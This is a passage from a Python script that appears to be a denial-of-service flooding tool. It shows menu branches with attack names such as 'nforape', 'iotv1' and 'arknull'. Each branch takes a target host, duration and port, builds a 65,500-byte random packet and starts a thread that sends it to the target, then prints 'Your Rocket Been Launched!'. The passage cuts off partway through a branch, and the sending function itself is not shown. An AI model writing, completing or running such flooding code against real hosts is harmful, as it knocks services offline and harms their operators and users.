 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "nforape":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "iotv1":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "arknull":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "2kdown":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()